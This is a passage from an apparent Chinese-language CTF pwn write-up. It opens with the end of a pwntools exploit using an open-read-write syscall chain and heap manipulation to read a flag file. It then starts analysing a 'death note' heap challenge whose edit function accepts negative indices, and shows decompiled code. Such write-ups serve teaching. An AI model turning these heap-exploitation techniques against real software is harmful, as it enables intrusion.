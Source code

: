 ```
    syscall,
    p_rdi_r, 1,
    p_rsi_r, flag_address,
    p_rdx_r, 0x50,
    p_rax_r, 1,
    syscall
])

add(0x60, b"1212")
add(len(bytes(frame)), bytes(frame))
delete(1)

payload = orw
payload = payload.ljust(0x100, b"\x00")
payload += b"/home/ctf/flag.txt".ljust(0x20, b"\x00")
p.sendline(payload)
p.interactive()
```



## death note

首先我们看一下程序的逻辑，程序一共提供了四种功能`add,delete,edit,show`。`add`函数中按照用户输入的`size`申请了特定大小的堆块，并且注意这里的堆块大小需要小于`0xFF`。一共可以申请十次，将申请得到的堆块地址写入到了数组中的相应位置，将`size`的值单独保存在了一个数组中。

`delete`函数则是根据用户输入的索引值删除了相应的堆块，并且将数组中相应的位置置为0。而`edit`函数则是根据用户输入的索引值调用了下面的语句

```
read(0, (void *)buf_list[index], (unsigned int)size_list[index]);
```

`show`函数则是输出相应索引值中的内容，整个程序的逻辑看起来好像没什么问题。

这里的漏洞存在的位置很巧妙，存在于`edit`函数中，没有对`index`进行向下的检查导致我们可以输入负数。

```
ssize_t edit()
`{`
  int index; // [rsp+Ch] [rbp-4h]

  write(1, "Provide note index: ", 0x14uLL);
  index = get_int();
  if ( index &gt; 9 )// 数组越界
    return write(1, "The death note isn't that big unfortunately\n", 0x2CuLL);
  if ( !buf_list[index] )
    return write(1, "Page doesn't even exist!\n", 0x19uLL);
  write(1, "Name: ", 6uLL);
  return read(0, (void *)buf_list[index], (unsigned int)size_list[index]);
`}`
```

那么这里越界怎么利用呢。注意到这里其实所有的堆块的指针都是保存在一个堆块中的，该堆块是在`setvbuf`调用的时候申请的。

```
void *sub_9AA()
`{`
  void *result; // rax

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  result = malloc(0x50uLL);
  buf_list = (__int64)result;
  return result;
`}`
```
